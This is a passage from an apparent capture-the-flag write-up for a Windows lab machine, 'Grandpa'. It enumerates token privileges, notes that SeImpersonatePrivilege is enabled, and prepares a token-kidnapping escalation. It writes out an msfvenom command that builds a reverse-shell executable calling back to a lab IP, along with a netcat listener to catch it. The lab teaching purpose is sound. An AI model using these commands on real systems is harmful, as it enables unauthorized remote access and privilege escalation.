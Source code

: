 There's just an Ethernet interface.

## System enumeration

### Access tokens

Let's retrieve the privileges associated with our current access token.

```bat
c:\windows\system32\inetsrv> whoami /priv
```

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

We have several privileges, including `SeImpersonatePrivilege`... exactly like
for [Granny](../granny/index.md)!

## Privilege escalation (Token kidnapping)

See
[this Granny's section](../granny/index.md#privilege-escalation-token-kidnapping)
for more information on this exploit.

### Preparation

I'll transfer `token_kidnapping.exe` to Grandpa.

I want to obtain a reverse shell, so I'll use `msfvenom` to create an executable
for that.

```sh
❯ msfvenom -p "windows/shell_reverse_tcp" LHOST="10.10.14.10" LPORT="9003" -f "exe" -o "/workspace/server/revshell.exe"
```

Once again, I'll transfer it to Grandpa.

The last thing to do is starting a listener on port `9003` to receive the
connection.

```sh
❯ rlwrap nc -lvnp "9003"
```
